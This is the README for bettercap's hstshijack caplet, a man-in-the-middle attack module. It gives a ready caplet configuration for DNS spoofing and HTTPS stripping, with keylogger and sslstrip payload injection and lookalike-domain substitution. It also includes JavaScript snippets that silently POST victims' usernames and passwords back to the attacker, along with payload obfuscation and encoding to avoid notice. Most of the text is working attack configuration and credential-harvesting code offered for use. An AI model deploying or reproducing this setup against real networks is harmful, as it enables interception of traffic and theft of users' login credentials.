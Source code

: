 <p align="center">
  <img width="420px" src="https://cdn.rawgit.com/yungtravla/cdn/ccdc3b8d/github.com/bettercap/caplets/hstshijack/logo.svg" />
</p>

### Caplet

```sh
set hstshijack.log             /usr/local/share/bettercap/caplets/hstshijack/ssl.log
set hstshijack.payload         /usr/local/share/bettercap/caplets/hstshijack/payloads/hstshijack-payload.js
set hstshijack.ignore          *
set hstshijack.targets         *.com, *.co.uk
set hstshijack.replacements    *.corn,*.cc.uk
#set hstshijack.blockscripts    facebook.com,*.facebook.com
set hstshijack.obfuscate       false
set hstshijack.encode          true
set hstshijack.custompayloads  *:/usr/local/share/bettercap/caplets/hstshijack/payloads/sslstrip.js,*:/usr/local/share/bettercap/caplets/hstshijack/payloads/keylogger.js

set http.proxy.script  /usr/local/share/bettercap/caplets/hstshijack/hstshijack.js
set dns.spoof.domains  *.corn,*.cc.uk

http.proxy  on
dns.spoof   on
```

### Core payload

This module injects HTML & JS files with a payload (<a href="./payloads/hstshijack-payload.js">**hstshijack-payload.js**</a>) that replaces targeted hostnames with spoofed ones, and communicates with bettercap, revealing all URLs that were discovered in the injected document.

When bettercap receives a callback with a new URL, it sends a HEAD request to learn whether the host in this URL sends HTTPS redirects, and keeps a log.

This is done so that bettercap can know whether it should MITM an SSL connection with a host, before the victim navigates to it.

### Custom payloads

You can also inject your own JavaScript payloads into HTML & JS files from specific hosts by assigning them to the `hstshijack.custompayloads` variable.

Example:

```sh
hstshijack.custompayloads *:hstshijack/payloads/sslstrip.js,google.com:hstshijack/payloads/google.js,*.google.com:hstshijack/payloads/google.js
```

Once the payload is injected into a page, you can technically phish any data unless the client navigates to a URL that either has strict transport security rules enforced by their browser, or the URL was not stripped due to JavaScript security.

<a href="./payloads/sslstrip.js">**sslstrip.js**</a> is included, which strips the `s` from all `https` instances in `<a>`, `<form>` and `<iframe>` elements.

### Obfuscation

By setting `hstshijack.obfuscate` to `true`, any instance in your payloads beginning with `obf_` will be obfuscated automatically.

Example: 

```js
function obf_function() {
  alert("Random variable: obf_whatever_follows")
}

obf_function()
```

Will be injected as:

```js
function jfIleNwmKoa() {
  alert("Random variable: AsjZnJW")
}

jfIleNwmKoa()
```

### Encoding

Payloads can be injected in HTML documents using base64 encoded data URLs.

To enable payload encoding, set `hstshijack.encode` to `true`.

### Silent callbacks

You can write custom payloads that send data to bettercap without alerting the host.

Example of a silent callback:

```js
form.onsubmit = function() {
  req = new XMLHttpRequest()
  req.open("POST", "http://" + location.host + "/obf_path_callback?username=" + username + "&password=" + password)
  req.send()
}
```
<sup>Note: Every instance of `obf_path_callback` will be replaced with the callback path, every instance of `obf_path_whitelist` will be replaced with the whitelist path, and every instance of `obf_path_ssl_log` will be replaced with the SSL log path.</sup>

The code above will send a POST request that will be sniffed by bettercap, but not proxied. 

### Whitelisting callbacks

You can stop attacking a client on a certain host when you receive a request from that client for the whitelist path. The whitelist path will be inserted wherever you have `obf_path_whitelist` written in your payloads (`/` will not be written).

Example of whitelisting callbacks:

```js
// Whitelist multiple domains

form.onsubmit = function() {
  // Whitelist current hostname and phish credentials
  req = new XMLHttpRequest()
  req.open("POST", "http://" + location.hostname + "/obf_path_whitelist?username=" + username + "&password=" + password)
  req.send()

  // Whitelist facebook
  req = new XMLHttpRequest()
  req.open("POST", "http://facedook.com/obf_path_whitelist")
  req.send()

  // Whitelist facebook CDN
  req = new XMLHttpRequest()
  req.open("POST", "http://static.xx.fdcdn.net/obf_path_whitelist")
  req.send()

  // Whitelist redirect to facebook
  req = new XMLHttpRequest()
  req.open("POST", "http://fd.com/obf_path_whitelist")
  req.send()
}
```

When the bettercap proxy receives such a request, it will stop attacking clients on the requested (original and spoofed) host(s). If a spoofed location is requested that was whitelisted, the client will then be redirected to the intended location.

Note that if the hostnames you are whitelisting are HSTS preloaded, you have to send the whitelist callback to the spoofed hostnames, otherwise the browser will enforce a HTTPS connection, and bettercap will not be able to intercept the requests.

### Block scripts

In the <a href="./hstshijack.cap">**caplet file**</a> you can block JavaScript on hosts by assigning them to the `hstshijack.blockscripts` variable. _(wildcard allowed)_ 

### SSL log

If a host responds with a HTTPS redirect, the module saves this host in the SSL log, and bettercap will from then on spoof SSL connections for this host when possible.

### Hostname spoofing

In the <a href="./hstshijack.cap">**caplet file**</a> you can assign comma separated domains to the `hstshijack.targets` variable. _(wildcard allowed)_

For every hostname you assign to `hstshijack.targets` you must assign a replacement domain to the `hstshijack.replacements` variable.

Example:

```sh
set hstshijack.targets       *.com, blockchain.info,*.blockchain.info
set hstshijack.replacements  *.corn,blockchian.info,*.blockchian.info
```

You can try to make them as unnoticeable or obvious as you like, but your options are limited here.
